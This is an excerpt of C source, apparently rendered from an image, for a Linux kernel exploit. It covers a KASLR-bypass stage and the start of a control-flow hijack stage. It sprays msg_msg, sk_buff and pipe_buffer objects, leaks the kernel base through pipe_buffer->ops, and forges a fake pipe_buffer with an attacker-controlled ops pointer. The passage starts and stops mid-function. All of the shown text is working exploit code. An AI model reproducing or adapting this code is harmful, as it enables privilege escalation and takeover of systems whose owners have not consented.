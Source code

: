 ```c
  if ((kheap_addr & 0xFFFF00000000FFFF) != 0xFFFF000000000000) {
    printf("[-] Error kernel heap address is incorrect.\n");
    goto err_rmid;
  }
// 3. leak kernel base
  printf("\n");
  printf("[+] STAGE 3: KASLR bypass\n");

  printf("[*] Freeing fake secondary messages...\n");
  free_skbuff(ss, secondary_buf, sizeof(secondary_buf));

// 3-1. forge `msg_msg->m_list->next & prev` so that list_del() does not crash.
  printf("[*] Spraying fake secondary messages...\n");
  memset(secondary_buf, 0, sizeof(secondary_buf));
  build_msg_msg((void *)secondary_buf, kheap_addr, kheap_addr, 0, 0);
  if (spray_skbuff(ss, secondary_buf, sizeof(secondary_buf)) < 0)
    goto err_rmid;
// 3-2. free secondary msg
  printf("[*] Freeing sk_buff data buffer...\n");
  if (read_msg(msqid[fake_idx], &msg_fake, sizeof(msg_fake), MTYPE_FAKE) < 0)
    goto err_rmid;
// 3-3. spray pipe_buffer object
  printf("[*] Spraying pipe_buffer objects...\n");
  for (int i = 0; i < NUM_PIPEFDS; i++) {
    if (pipe(pipefd[i]) < 0) {
      perror("[-] pipe");
      goto err_rmid;
    }
    // Write something to populate pipe_buffer.
    if (write(pipefd[i][1], "pwn", 3) < 0) {
      perror("[-] write");
      goto err_rmid;
    }
  }
// 3-4. leak pipe_buffer->ops —— kernel base
  printf("[*] Leaking and freeing pipe_buffer object...\n");
  for (int i = 0; i < NUM_SOCKETS; i++) {
    for (int j = 0; j < NUM_SKBUFFS; j++) {
      if (read(ss[i][1], secondary_buf, sizeof(secondary_buf)) < 0) {
        perror("[-] read");
        goto err_rmid;
      }
      if (*(uint64_t *)&secondary_buf[0x10] != MTYPE_FAKE)
        pipe_buffer_ops = *(uint64_t *)&secondary_buf[0x10];
    }
  }

  kbase_addr = pipe_buffer_ops - ANON_PIPE_BUF_OPS;
  printf("[+] anon_pipe_buf_ops: %" PRIx64 "\n", pipe_buffer_ops);
  printf("[+] kbase_addr: %" PRIx64 "\n", kbase_addr);

  if ((kbase_addr & 0xFFFF0000000FFFFF) != 0xFFFF000000000000) {
    printf("[-] Error kernel base address is incorrect.\n");
    goto err_rmid;
  }
// 4. hijack control-flow
  printf("\n");
  printf("[+] STAGE 4: Kernel code execution\n");
// 4-1. use skb to forge fake pipe_buffer
  printf("[*] Spraying fake pipe_buffer objects...\n");
  memset(secondary_buf, 0, sizeof(secondary_buf));
  buf = (struct pipe_buffer *)&secondary_buf;
  buf->ops = kheap_addr + 0x290;
```